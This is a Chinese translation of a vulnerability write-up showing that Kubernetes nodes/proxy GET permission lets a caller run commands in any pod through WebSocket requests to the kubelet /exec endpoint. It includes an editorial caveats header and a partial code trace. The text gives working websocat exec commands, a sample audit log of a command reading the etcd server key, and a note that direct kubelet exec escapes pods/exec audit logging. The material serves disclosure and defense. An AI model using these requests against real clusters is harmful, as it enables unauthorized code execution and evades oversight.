




# Kubernetes 通过 nodes/proxy GET 权限在集群任意 Pod 中执行命令（RCE）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：主体持有效nodes/proxy get权限、能连接目标节点10250、支持WebSocket exec；权限resourceNames及节点可达范围限制影响；实验1.34/1.35
- 证据范围：已完整读取106145字符含所有HTML、代码、披露信及Helm附录。保留研究者与安全团队不同立场，不能擅改为官方已确认授权绕过漏洞；与85基础nodes/proxy教程关联但独立WebSocket细节应保留

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- YAML/Bash/HTTP全面合并，脚本含forargin等黏连，无法直接运行
- 将节点proxy端点和标准pods/exec混用论证：示例审计URI其实标准pods/exec，不能证明任意metrics请求产生exec事件
- 比较API代理POST和直连WebSocket GET同时改变两变量，不能单凭此对照证明只因访问路径产生差异
- 所有Pod/完整集群接管必须限制在可达且获授权的节点以及容器能力/凭据条件
- 直连不产生pods/exec审计不等于毫无日志，文内明确仍有SubjectAccessReview；摘要应保留
- 检测脚本链接缺失；69个图表只是权限配置候选，非69个已验证可利用部署
- KEP阶段/1.36预计发布属于2026-01时点，不可当当前状态
- 附录大量style和重复中英图注可规范化

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

grahamhelton
                    grahamhelton  securitainment   2026-01-31 12:37  
  
> Kubernetes RBAC 中的一个授权绕过允许仅拥有 nodes/proxy GET  
权限的主体在集群内任意 Pod 中执行命令。  
  
<table><thead><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">原文链接</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">作者</span></section></th></tr></thead><tbody><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">&lt;https://grahamhelton.com/blog/nodes-proxy-rce&gt;</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grahamhelton</span></section></td></tr></tbody></table>

# 简介  
  
在本文中，我将介绍当服务账户具有 nodes/proxy GET  
权限时，如何在许多 Kubernetes 集群中的每个 Pod 中执行代码。这个问题最初通过 Kubernetes 安全披露流程报告，但被认定为设计目的而关闭。  
  
  
  
Executing Commands In Another Pod  
  
在另一个 Pod 中执行命令  
<table><thead><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">属性</span></section></th><th style="font-weight: bold;border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">详情</span></section></th></tr></thead><tbody><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">易受攻击的权限</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><code style="font-family: SFMono-Regular, Consolas, &#34;Liberation Mono&#34;, Menlo, Courier, monospace;line-height: 1.45;font-size: 13.6px;margin: 0px 2px;padding: 0.2em 0.4em;white-space: nowrap;background-color: rgba(27, 31, 35, 0.05);border-radius: 3px;"><span leaf="">nodes/proxy GET</span></code></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">测试的 Kubernetes 版本</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">v1.34, v1.35</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">所需的网络访问</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">Kubelet API（端口 10250）</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">影响</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">在可达节点的任何 Pod 中执行代码</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">披露状态</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">不修复（设计目的）</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><strong style="margin-top: 0px;margin-bottom: 0px;"><span leaf="">受影响的 Helm 图表</span></strong></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">69</span></section></td></tr></tbody></table>  


Kubernetes 管理员通常向需要访问 Pod 指标和容器日志等数据的服务账户授予 nodes/proxy  
资源的访问权限。因此，Kubernetes 监控工具通常需要此资源来读取数据。  
  
nodes/proxy GET  
允许在使用 WebSocket 等连接协议时执行命令。这是因为 Kubelet 仅基于初始 WebSocket 握手的请求进行授权决策，**而不**  
验证 Kubelet 的 /exec  
端点是否存在 CREATE  
权限，这些端点要求的权限完全取决于连接协议。  
  
结果是任何具有对 nodes/proxy GET  
的服务账户访问权限且能够在端口 10250 连接到节点的 Kubelet 的人都可以向 /exec  
端点发送信息，**在任何 Pod 中执行命令，包括特权系统 Pod**  
，可能导致完整的集群入侵。**Kubernetes AuditPolicy 不记录通过直接连接到 Kubelet API 执行的命令。**  
  
**这不是特定供应商的问题。**  
供应商广泛使用 nodes/proxy GET  
权限，因为没有通常可用的可行替代方案。快速搜索返回了 69 个提及 nodes/proxy GET  
权限的 helm 图表。一些图表默认包含它，而其他图表可能需要额外的选项配置。如果您有疑虑，请向供应商咨询并查看本文的检测部分。  
  
**注意**  
：一些图表要求启用相关功能才能使用 nodes/proxy  
。例如，cilium 必须配置为使用 Spire。  
  
以下是一些值得注意的图表。有关已识别的 69 个 Helm 图表的完整列表，请参阅本文的附录：  
- prometheus-community/prometheus  
  
- grafana/promtail  
  
- datadog/datadog  
  
- elastic/elastic-agent  
  
- cilium/cilium  
  
- opentelemetry-helm/opentelemetry-kube-stack  
  
- trivy-operator/trivy-operator  
  
- newrelic/newrelic-infrastructure  
  
- wiz-sec/sensor  
  
以下 ClusterRole 显示了利用此漏洞所需的所有权限。  

```
# Vulnerable ClusterRoleapiVersion: rbac.authorization.k8s.io/v1kind: ClusterRolemetadata:name: nodes-proxy-readerrules:  - apiGroups: [""]resources: ["nodes/proxy"]verbs: ["get"]
```  
  
作为集群管理员，您可以使用此检测脚本检查集群中所有服务账户的此权限。  
  
如果服务账户易受攻击，可以使用 websocat 等工具在集群中的所有 Pod 中运行命令：  

```
websocat --insecure \  --header "Authorization: Bearer $TOKEN"\  --protocol v4.channel.k8s.io \"wss://$NODE_IP:10250/exec/default/nginx/nginx?output=1&error=1&command=id"uid=0(root) gid=0(root) groups=0(root)
```  
  
如果您想自己动手，我已经发布了一个实验室，用于演练如何在其他 Pod 中执行命令：https://labs.iximiuz.com/tutorials/nodes-proxy-rce-c9e436a9  
  
  
  
演示环境  
  
演示环境  
  
如果您想获得早期研究通知，可以使用 RSS 订阅或直接发送到您的收件箱。  
  
---  
# 深入探讨：什么是 Nodes/Proxy?  
  
快速回顾：Kubernetes RBAC 使用资源和动词来控制访问。资源如 pods  
、pods/exec  
或pods/logs  
映射到特定操作，动词如get  
、create  
或delete  
定义允许的操作。例如，具有create  
动词的pods/exec  
允许在 Pod 中执行命令，而具有get  
动词的pods/logs  
允许读取日志。  
  
nodes/proxy  
资源很特殊。与大多数 Kubernetes 资源不同（如 pods/exec  
用于命令执行或 pods/logs  
用于日志访问），nodes/proxy  
是一个全能权限，控制对 Kubelet API 的访问。它通过授予对两个不同但略有关联的端点（称为 **API 服务器代理**  
和 **Kubelet API**  
）的访问权限来实现这一点。  
## API 服务器代理  
  
nodes/proxy  
授予访问的第一个端点是 API 服务器代理端点 $API_SERVER/api/v1/nodes/$NODE_NAME/proxy/...  
。  
  
发送到此端点的请求从 API 服务器代理到目标节点的 Kubelet。这用于许多操作，但一些常见的操作包括：  
- 读取指标：$API_SERVER/api/v1/nodes/$NODE_NAME/proxy/metrics  
  
- 读取资源使用情况：$API_SERVER/api/v1/nodes/$NODE_NAME/proxy/stats/summary  
  
- 获取容器日志：$API_SERVER/api/v1/nodes/$NODE_NAME/proxy/containerLogs/$NAMESPACE/$POD_NAME/$CONTAINER_NAME  
  
可以使用 kubectl 的 --raw  
标志或直接使用 curl 访问这些。例如，向指标端点发送请求会返回一些基本指标信息：  

```
# with kubectlkubectl get --raw /api/v1/nodes/$NODE_NAME/proxy/metrics | head -n 10# Or with curlcurl -sk -H "Authorization: Bearer $TOKEN"$API_SERVER/api/v1/nodes/$NODE_NAME/proxy/metrics | head -n 10
```  

```
# HELP aggregator_discovery_aggregation_count_total [ALPHA] Counter of number of times discovery was aggregated# TYPE aggregator_discovery_aggregation_count_total counteraggregator_discovery_aggregation_count_total 0# HELP apiserver_audit_event_total [ALPHA] Counter of audit events generated and sent to the audit backend.# TYPE apiserver_audit_event_total counterapiserver_audit_event_total 0# HELP apiserver_audit_requests_rejected_total [ALPHA] Counter of apiserver requests rejected due to an error in audit logging backend.# TYPE apiserver_audit_requests_rejected_total counterapiserver_audit_requests_rejected_total 0# HELP apiserver_client_certificate_expiration_seconds [ALPHA] Distribution of the remaining lifetime on the certificate used to authenticate a request.
```  
  
由于该请求会经过 API Server，因此（如果配置了 AuditPolicy）会为 pods/exec  
和 subjectaccessreviews  
资源生成审计日志。在记录的 pods/exec  
请求中，注意 requestURI  
字段会显示在 Pod 中执行的完整命令。  

```
// Request generated via AuditPolicy{  "kind": "Event",  "apiVersion": "audit.k8s.io/v1",  "level": "Metadata",  "auditID": "196f4d69-6cfa-4812-b7b9-4bf13689cb8d",  "stage": "RequestReceived",  "requestURI": "/api/v1/namespaces/kube-system/pods/etcd-minikube/exec?command=sh&command=-c&command=filename%3D%2Fvar%2Flib%2Fminikube%2Fcerts%2Fetcd%2Fserver.key%3B+while+IFS%3D+read+-r+line%3B+do+printf+%22%25s%5C%5Cn%22+%22%24line%22%3Bdone+%3C+%22%24filename%22&container=etcd&stdin=true&stdout=true&tty=true",  "verb": "get",  "user": {    "username": "minikube-user",    "groups": [      "system:masters",      "system:authenticated"    ],    "extra": {      "authentication.kubernetes.io/credential-id": [        "X509SHA256=3da792d1a94c5205821984a672707270a9f2d8e27190eb09051b15448e5bf0c3"      ]    }  },  "sourceIPs": [    "192.168.67.1"  ],  "userAgent": "kubectl/v1.31.0 (linux/amd64) kubernetes/9edcffc",  "objectRef": {    "resource": "pods",    "namespace": "kube-system",    "name": "etcd-minikube",    "apiVersion": "v1",    "subresource": "exec"  },  "requestReceivedTimestamp": "2025-11-04T05:42:51.025534Z",  "stageTimestamp": "2025-11-04T05:42:51.025534Z"}
```  
## Kubelet API  
  
除了 API 服务器代理端点外，nodes/proxy  
资源还授予对 Kubelet API 的直接访问。请记住，每个节点都有一个 Kubelet 进程负责告诉容器运行时要创建哪些容器。  
  
Kubelet 公开了各种 API 端点，提供与 API 服务器代理类似的信息。例如，我们可以通过直接查询 Kubelet API 返回与之前相同的指标数据。  

```shell
curl -sk -H "Authorization: Bearer $TOKEN" https://$NODE_IP:10250/metrics | head -n 10
```  
  
**注意**  
：这里必须使用节点的 IP，而不是像通过 API Server 发起请求时那样使用节点名。  

```
# HELP aggregator_discovery_aggregation_count_total [ALPHA] Counter of number of times discovery was aggregated# TYPE aggregator_discovery_aggregation_count_total counteraggregator_discovery_aggregation_count_total 0# HELP apiserver_audit_event_total [ALPHA] Counter of audit events generated and sent to the audit backend.# TYPE apiserver_audit_event_total counterapiserver_audit_event_total 0# HELP apiserver_audit_requests_rejected_total [ALPHA] Counter of apiserver requests rejected due to an error in audit logging backend.# TYPE apiserver_audit_requests_rejected_total counterapiserver_audit_requests_rejected_total 0# HELP apiserver_client_certificate_expiration_seconds [ALPHA] Distribution of the remaining lifetime on the certificate used to authenticate a request.
```  
  
有趣的是，这种与 Kubelet 的直接连接不经过 API 服务器，这意味着 Kubernetes AuditPolicy 仅生成检查执行操作授权的 subjectaccessreviews  
日志，但**不**  
记录 pods/exec  
操作，防止我们看到在 Pod 中执行的完整命令。  

```
{  "kind": "Event",  "apiVersion": "audit.k8s.io/v1",  "level": "Metadata",  "auditID": "1be86af9-26e7-40e9-aaae-bbb904df129b",  "stage": "ResponseComplete",  "requestURI": "/apis/authorization.k8s.io/v1/subjectaccessreviews",  "verb": "create",  "user": {    "username": "system:node:minikube",    "groups": [      "system:nodes",      "system:authenticated"    ],    "extra": {      "authentication.kubernetes.io/credential-id": [        "X509SHA256=52d652baad2bfd4d1fa0bb82308980964f8c7fbf01784f30e096accd1691f889"      ]    }  },  "sourceIPs": [    "192.168.67.2"  ],  "userAgent": "kubelet/v1.34.0 (linux/amd64) kubernetes/f28b4c9",  "objectRef": {    "resource": "subjectaccessreviews",    "apiGroup": "authorization.k8s.io",    "apiVersion": "v1"  },  "responseStatus": {    "metadata": {},    "code": 201  },  "requestReceivedTimestamp": "2025-11-04T05:54:54.978676Z",  "stageTimestamp": "2025-11-04T05:54:54.979425Z",  "annotations": {    "authorization.k8s.io/decision": "allow",    "authorization.k8s.io/reason": ""  }}
```  
  
在编写本文时，Kubelet 的授权文档并未全面列出 Kubelet 的 API 端点。Kubelet 的 API 公开了这些额外的端点：  
- /exec  
：在容器中产生新进程并执行任意命令（交互式）  
  
- /run  
：与 /exec  
非常相似，在容器中运行命令并检索输出（非交互式）  
  
- /attach  
：附加到容器进程并访问其 stdin/stdout/stderr 流  
  
- /portforward  
：创建网络隧道以将 TCP 连接转发到容器  
  
/exec  
和 /run  
端点将是我们的主要关注点。与 /metrics  
和 /stats  
等只读端点不同，/exec  
和 /run  
端点允许在容器内执行代码。  
  
通常，在标准 Kubernetes RBAC 语义中，创建 Pod 或在 Pod 中执行代码等操作需要 CREATE RBAC 动词，而读操作需要 GET 动词。这使得很容易查看（集群）角色并识别它是否仅读。但是，如 Rory McCune 在博文"何时只读不是只读？"中指出的那样，这并不普遍适用。  
  
nodes/proxy CREATE  
以可怕著称，并被充分记录为风险：  
- RBAC 最佳实践  
  
- API 服务器绕过风险  
  
- Kubernetes RBAC 中的 Node/Proxy  
  
- Kubernetes RBAC 中的权限提升  
  
- CIS Kubernetes 安全基准  
  
甚至 nccgroup 的一次安全审计也指出，当 nodes/proxy GET  
与 nodes/status PATCH  
或 nodes CREATE  
组合使用时会出现问题：  
  
  
  
Security Audit - `kubernetes/kubernetes#119270`  
  
  
安全审计 - kubernetes/kubernetes#119270  
  
文档明确说明，发往 Kubelet 的请求与发往 API Server 代理路径的请求在授权上采用相同的方式：“kubelet 使用与 apiserver 相同的请求属性方式对 API 请求进行授权”。（见 kubelet-authorization 文档）  
  
当向 API Server 发送一个常规请求时，Kubernetes 会读取 HTTP 方法（GET  
、POST  
、PUT  
……）并将其转换为 RBAC 的“verb”，例如 GET  
、CREATE  
、UPDATE  
。（auth.go:80-94）  
  
Kubernetes 文档给出了 HTTP 动词到 RBAC 动词的映射：  
  
  
  
HTTP to RBAC Verbs  
  
HTTP 动词到 RBAC 动词的映射  
  
按理说，这意味着 POST  
请求应一致地映射到 RBAC CREATE  
动词，而 GET  
请求映射到 RBAC GET  
动词。然而，当通过 WebSocket 等非 HTTP 通信协议访问 Kubelet 的 /exec  
端点时（根据 RFC，初始握手阶段需要一个 HTTP GET  
），**Kubelet 的授权决策基于这个初始 GET，而不是随后发生的命令执行操作**  
。结果就是：nodes/proxy GET  
会错误地允许执行本应需要 nodes/proxy CREATE  
的命令执行操作。  
# 理解漏洞  
  
nodes/proxy  
权限授予服务账户对 Kubelet API 的访问权限。安全专业人员已明确指出，如我之前指出的那样，即使没有此漏洞，对 Kubelet API 的读访问也授予对 /metrics  
和 /containerLogs  
等只读端点的访问权限。  
  
**注意**  
  
我强烈建议检查这些是否包含机密或 API 密钥！  
  
但是，这个问题呈现了一个更严重的问题：nodes/proxy GET  
授予对命令执行端点的写访问权限。  
  
在本讨论中，我将使用具有以下 ClusterRole 的服务账户。  

```
apiVersion: rbac.authorization.k8s.io/v1kind: ClusterRolemetadata:name: nodes-proxy-readerrules:  - apiGroups: [""]resources: ["nodes/proxy"]verbs: ["get"]
```  
### 根本原因  
  
如前所述，Kubelet 根据初始 HTTP 方法决定要检查哪个 RBAC 动词。POST  
请求映射到 RBAC CREATE  
动词，而 GET  
请求映射到 RBAC GET  
动词。  
  
这很有趣，因为 Kubelet 上的命令执行端点（如 /exec  
）使用 WebSocket 进行双向数据流。由于 HTTP 不是实时双向通信的好选择，交互式命令执行需要像 WebSocket 或 SPDY 这样的协议。  
  
有趣的是，WebSocket 协议要求在初始握手期间发送带有 Connection: Upgrade  
头的 HTTP GET  
请求来建立并升级到 WebSocket。  
  
这意味着在任何 WebSocket 连接建立中发送的初始请求是带有 Connection: Upgrade  
头的 HTTP GET  
：  

```http
GET /exec HTTP/1.1Host: example.comUpgrade: websocketConnection: Upgrade<snip>
```  
  
由于在 WebSocket 连接期间发送的这个初始 GET  
请求，Kubelet 根据在 WebSocket 连接建立期间进行的这个初始 GET  
请求错误地授权请求，而不是在连接建立后验证执行的权限。  
  
Kubelet 缺少在连接请求升级后的授权检查，并且在使用 WebSocket 时不会验证服务账户是否具有执行实际操作的权限。  
  
这允许使用 websocat 等工具使用 WebSocket 发送请求，而无需 CREATE  
权限在 /exec  
端点上执行命令。  
  
为了演示这一点，让我们检查我们的权限，以确保我们仅对此服务账户分配了 nodes/proxy GET  
权限。  

```
kubectl auth can-i --list
```  

```
Resources                                       Non-Resource URLs                      Resource Names   Verbsselfsubjectreviews.authentication.k8s.io        []                                     []               [create]selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]                                                [/.well-known/openid-configuration/]   []               [get]                                                [/.well-known/openid-configuration]    []               [get]                                                [/api/*]                               []               [get]                                                [/api]                                 []               [get]                                                [/apis/*]                              []               [get]                                                [/apis]                                []               [get]                                                [/healthz]                             []               [get]                                                [/healthz]                             []               [get]                                                [/livez]                               []               [get]                                                [/livez]                               []               [get]                                                [/openapi/*]                           []               [get]                                                [/openapi]                             []               [get]                                                [/openid/v1/jwks/]                     []               [get]                                                [/openid/v1/jwks]                      []               [get]                                                [/readyz]                              []               [get]                                                [/readyz]                              []               [get]                                                [/version/]                            []               [get]                                                [/version/]                            []               [get]                                                [/version]                             []               [get]                                                [/version]                             []               [get]nodes/proxy                                     []                                     []               [get]
```  
  
确认我们仅对此服务账户具有 nodes/proxy GET  
权限后，我们可以使用 websocat 直接向 Kubelet 的 /exec  
端点发送 WebSocket 请求。  

```
websocat \  --insecure \  --header "Authorization: Bearer $TOKEN"\  --protocol "v4.channel.k8s.io"\"wss://$NODE_IP:10250/exec/default/nginx/nginx?output=1&error=1&command=hostname"
```  

```
nginx{"metadata":{},"status":"Success"}
```  
  
生成的输出显示 hostname  
执行成功。**这就是漏洞：Kubelet 的授权逻辑把 WebSocket 握手期间的 HTTP GET请求映射成 RBAC GET动词**  
。然后它检查 nodes/proxy GET  
（我们有），并允许操作继续进行。这里不存在二次授权检查去验证该写操作是否具备 CREATE  
动词！  
  
相比之下，当使用 POST（映射到 RBAC CREATE  
动词）请求到同一 /exec  
端点时，请求被拒绝。  

```shell
curl -sk -X POST \  -H "Authorization: Bearer $TOKEN"\"https://$NODE_IP:10250/exec/default/nginx/nginx?command=hostname&stdout=true&stderr=true"
```  

```
Forbidden (user=system:serviceaccount:default:attacker, verb=create, resource=nodes, subresource(s)=[proxy])
```  
  
正如预期的那样，这是禁止的，因为我们的用户 system:serviceaccount:default:attacker  
没有 nodes/proxy CREATE  
，我们只有 nodes/proxy GET  
。授权逻辑正确地将 HTTP POST  
映射到 RBAC CREATE  
动词。  
  
两个请求都针对 Kubelet 上的同一 /exec  
端点来执行命令，但它们基于连接协议所需的初始 HTTP 方法使用不同的 RBAC 动词进行授权。  
  
**授权决策应基于操作做什么，而不是请求_如何_传输。**  
这允许攻击者通过选择不同的连接协议来绕过现有的授权控制。  
  
**注意**  
：为简化说明，本文以 WebSocket 为例；SPDY 在 Kubernetes 中也会用到。  
  
为了查看为什么会发生这种情况，我最终必须通过代码库追踪请求，以了解为什么 nodes/proxy GET  
请求允许访问应该需要 nodes/proxy CREATE  
的资源。以下是我找到的路径：  
1. **客户端启动 WebSocket 连接**  
：客户端向 /exec/default/nginx/nginx?command=id  
发送 HTTP GET 请求，带有 Connection: Upgrade  
头来建立用于命令执行的 WebSocket 连接。例如，使用 websocat。  
  
1. **认证**  
：Kubelet 验证请求中的 JWT 持有者令牌并提取用户身份。即：system:serviceaccount:default:attacker  
(server.go:338)  
  
1. **请求授权属性**  
：Kubelet 调用授权属性函数，传递经过身份验证的用户和 HTTP 请求以确定要检查的 RBAC 权限 (server.go:350)。  
  
1. **将 HTTP 方法映射到 RBAC 动词**  
：Kubelet 检查请求方法 GET  
（由 WebSocket 协议 RFC 6455 要求）并将其映射到 RBAC 动词 "get"  
。(auth.go:87)  
  
**注意**  
  
这是第一个错误。授权决策基于 WebSocket 握手期间的这个_必需_HTTP GET  
进行。  
1. **将请求路径映射到子资源**  
：Kubelet 检查请求路径 /exec/default/nginx/nginx  
。它不匹配特定情况（/stats  
、/metrics  
、/logs  
、/checkpoint  
），因此默认为 proxy  
的子资源。(auth.go:129)  
  
**注意**  
  
这是第二个错误。/exec  
